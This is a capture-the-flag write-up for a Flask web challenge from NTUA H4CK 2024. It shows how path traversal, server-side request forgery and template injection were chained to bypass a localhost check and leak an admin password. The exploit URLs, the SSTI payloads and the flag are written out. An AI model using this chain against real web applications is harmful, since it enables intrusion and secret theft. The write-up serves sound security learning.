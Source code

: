 ```yaml
---
layout: post
title: "Wish Cards"
description: from NTUA H4CK 2024
# img: assets/img/12.jpg
date: 2024-12-20 10:14:00-0000
category: web
related_posts: false
---
```


***
You can download all challenge files from [here](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0/tree/main/web/wish-cards/src) and run the application locally.

***
## Basic Functionality
- The challenge involves a `Flask` web app.
- The app allows users to choose a picture as a template and generates a Christmas card with a random wish sourced from `data.py`.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards1.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards2.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- Additionally, there's an option to create a <u>custom card</u> with a personalized message, but this feature is **restricted to localhost requests only**.
<div class="row mt-3">
    <div class="col-10 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards3.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- The following code enforces this restriction:

```python
def local(f):
    @wraps(f)
    def check(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return render_template('error.html', error= 'Sorry, this page is not available for the public 🥲')
        return f(*args, **kwargs)
    return check
```

## How to get the flag
- Upon reviewing the code, I discovered that the flag can be obtained by sending a request to `/admin-card`. However, two conditions must be met:
  - We need the admin password
  - We must bypass the same localhost restriction as the custom card functionality.

```python
try:    secret_wish = open('flag.txt','r').read().strip()
except: secret_wish='NH4CK{secrettttt}'

@app.route('/admin-card')
@local
def admin():
    passw = request.args.get('pass', '')
    if passw != ADMINPASS:
        return render_template('error.html', error= 'Urm, wrong password ❌')
    secret_card = make_card('colors.png', wish= f'Merry Xmas, don\'t share my secret: {secret_wish}')
    return send_file(io.BytesIO(secret_card), mimetype= 'image/png', as_attachment= True, download_name= 'flag.png')
```

## Getting the admin password
- I noticed that the admin pass is loaded in a global variable in `util.py`.

```python
try:    ADMINPASS = open('adminpass.txt').read().strip()
except: ADMINPASS = 'adminpass'
```

- I also noticed that when a custom card is generated, the custom wish is is directly rendered into the template **without any sanitization**.

{% raw %}
```python
def generate_card_html(b64_image, wish):
    card_html = f'''
    <html>
    <head>
        <style>
            .card {{
                width: 800px;
                height: 600px;
                background-image: url(data:image/png;base64,{b64_image});
                background-size: cover;
                display: flex;
                align-items: center;
                justify-content: center;
                color: white;
                font-size: 20px;
                text-align: center;
                padding: 10px;
                box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2);
                border-radius: 10px;
            }}
        </style>
    </head>
    <body>
        <div class="card">
            {wish}
        </div>
    </body>
    </html>
    '''
    return render_template_string(card_html, **globals())
```
{% endraw %}

- This suggested an [SSTI](https://portswigger.net/web-security/server-side-template-injection) **vulnerability** . By exploiting it, I could potentially extract the admin password using a payload like {% raw %}`{{ADMINPASS}}`{% endraw %}. The only problem was the localhost restriction.
- I assumed that there has to be an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability as well, that would allow us to **force the server to make requests on behalf of us**.

## SSRF vulnerability
- The `make_card` function looked very promising because:
  - The server **fetches** images by making **HTTP requests to itself**.
  - it concatenates a **user-controlled input** into the url string.

```python
def make_card(img: str, wish= ''):
    if not img or not img.endswith('.png'):
        return None
    if any([c in wish for c in '<>%_&"\\()']): # these may crash something
        return None
    
    if not wish:
        wish = get_wish()
    
    img_b64 = img_from_url(f'http://127.0.0.1:1337/static/images/{img}')
    if not img_b64:
        return None
    card_html = generate_card_html(img_b64,wish)
    as_pic = imgkit.from_string(card_html, False, options= {'format': 'png', 'quiet': '', 'crop-h': '1000', 'crop-w': '800'})
    return as_pic
```

- Firstly I checked if I could control the server's request URL with **path traversal**. I tried:
```
http://localhost:1337/cards?image=../../static/images/green.png
```
- The response was a **normal card** with the requested background **without any errors**. So, I confirmed that indeed I can control it.

- Next, I tried creating a **custom card** to see if I could **bypass** the localhost restriction:
```
http://localhost:1337/cards?image=../../custom-cards?wish=MyCustomWish%26image=green.png
```
- Notice that the `image` parameter of the SSRF request **should be second**, because the server checks if it ends with `.png`.
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards4.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And yes, my custom wish was **rendered successfully**. A random wish was also included, as the initial request was for a regular card, while using the rendered custom card as background.

- To **confirm the SSTI** vulnerability, I used the following request that rendered number `49`.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{7*7}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards5.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

- And finally used {% raw %}`{{ADMINPASS}}`{% endraw %} to get the admin pass.
```
http://localhost:1337/cards?image=../../custom-cards?wish={% raw %}{{ADMINPASS}}{% endraw %}%26image=green.png
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards7.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>

## Final payload to get the flag
- With the admin password in hand and a bypass for the localhost restriction, I could issue a request to the `/admin-card` endpoint and retrieve the flag:
```
http://localhost:1337/cards?image=../../admin-card?pass=adminpass%26fake=.png
```
- Again, the `image` parameter must end with `.png`, so I appended an arbitrary parameter.
- During the competition, the live server’s admin password was `GOD_INTERN!` so the final payload was:
```
/cards?image=../../admin-card?pass=GOD_INTERN!%26fake=.png
```
- And the real flag was:
```
NH4CK{y37.4n07h3r.w15h.c4rd}
```
<div class="row mt-3">
    <div class="col-9 mt-3 mt-md-0" style="max-width: fit-content; margin-left: auto; margin-right: auto;">
        {% include figure.liquid loading="eager" path="assets/img/writeups/ntuahack/wishcards8.png" class="img-fluid rounded z-depth-1" zoomable=true%}
    </div>
</div>